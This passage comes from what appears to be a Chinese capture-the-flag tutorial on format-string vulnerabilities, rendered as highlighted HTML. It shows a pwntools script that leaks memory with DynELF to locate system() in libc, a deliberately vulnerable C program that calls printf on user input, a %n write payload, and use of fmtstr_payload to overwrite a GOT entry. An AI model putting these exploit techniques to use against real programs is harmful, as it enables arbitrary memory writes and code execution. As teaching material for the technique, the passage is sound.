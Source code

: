 auto = FmtStr(test)
<span class="hljs-keyword">print</span> auto.offset
<span class="hljs-comment">#泄露内存 因为函数本来可以循环执行所以不用rop链闭合</span>
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">leak</span><span class="hljs-params">(addr)</span>:</span>
    payload = <span class="hljs-string">'A%9$s'</span><span class="hljs-comment">#这里需要注意一下 为了精确泄露内存用字符定下位</span>
    payload += <span class="hljs-string">'AAA'</span>
    payload += p32(addr)
    sh.sendline(payload)
    sh.recvuntil(<span class="hljs-string">'A'</span>)
    content = sh.recvuntil(<span class="hljs-string">'AAA'</span>)
    <span class="hljs-comment"># content = sh.recv(4)</span>
    <span class="hljs-keyword">print</span> content
    <span class="hljs-keyword">if</span>(len(content) == <span class="hljs-number">3</span>):
        <span class="hljs-keyword">print</span> <span class="hljs-string">'[*] NULL'</span>
        <span class="hljs-keyword">return</span> <span class="hljs-string">'\x00'</span>
    <span class="hljs-keyword">else</span>:
        <span class="hljs-keyword">print</span> <span class="hljs-string">'[*] %#x ---&gt; %s'</span> % (addr, (content[<span class="hljs-number">0</span>:-<span class="hljs-number">3</span>] <span class="hljs-keyword">or</span> <span class="hljs-string">''</span>).encode(<span class="hljs-string">'hex'</span>))
        <span class="hljs-keyword">print</span> len(content)
        <span class="hljs-keyword">return</span> content[<span class="hljs-number">0</span>:-<span class="hljs-number">3</span>]
<span class="hljs-comment">#-------- leak system</span>
d = DynELF(leak, elf=ELF(<span class="hljs-string">'./pwn2'</span>))
system_addr = d.lookup(<span class="hljs-string">'system'</span>,<span class="hljs-string">'libc'</span>)<span class="hljs-comment">#意思是在libc中寻找system地址</span>
log.info(<span class="hljs-string">'system_addr:'</span> + hex(system_addr))</code></pre>
<h1 id="0x03-内存写入">0x03 内存写入</h1>
<p>首先分析一个简单点的程序</p>
<pre class="prettyprint"><code class=" hljs cpp"><span class="hljs-preprocessor">#include &lt;stdio.h&gt; </span>
<span class="hljs-keyword">int</span> main() {
    <span class="hljs-keyword">int</span> flag=<span class="hljs-number">5</span> ;
    <span class="hljs-keyword">int</span> *p = &amp;flag;
    <span class="hljs-keyword">char</span> a[<span class="hljs-number">100</span>];
    <span class="hljs-built_in">scanf</span>(<span class="hljs-string">"%s"</span>,a);
    <span class="hljs-built_in">printf</span>(a);
    <span class="hljs-keyword">if</span>(flag == <span class="hljs-number">2000</span>)
    {
        <span class="hljs-built_in">printf</span>(<span class="hljs-string">"good\n"</span> );
    }
    <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>;
}</code></pre>
<p>利用gdb调试一下，在printf处设断点。查看一下堆栈的状况 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170519125819027?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
发现偏移为5 于是构造<code>%010x%010x%010x%01970x%n</code> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170519125905153?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
这里只是对于flag内存的修改，并没有达到任意修改的效果，任意修改需要计算偏移利用写好内存地址，利用%n直接修改。下面继续pwn2的讲解</br></img></br></br></img></br></p>
<hr>
<p>在pwntools中有现成的函数可以使用<code>fmtstr_payload</code>可以实现修改任意内存 <br>
<code>fmtstr_payload(auto.offset, {printf_got: system_addr})</code>(偏移，{原地址：目的地址})</br></p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-keyword">from</span> pwn <span class="hljs-keyword">import</span> *
sh = process(<span class="hljs-string">'./pwn2'</span>)
elf = ELF(<span class="hljs-string">'./pwn2'</span>)
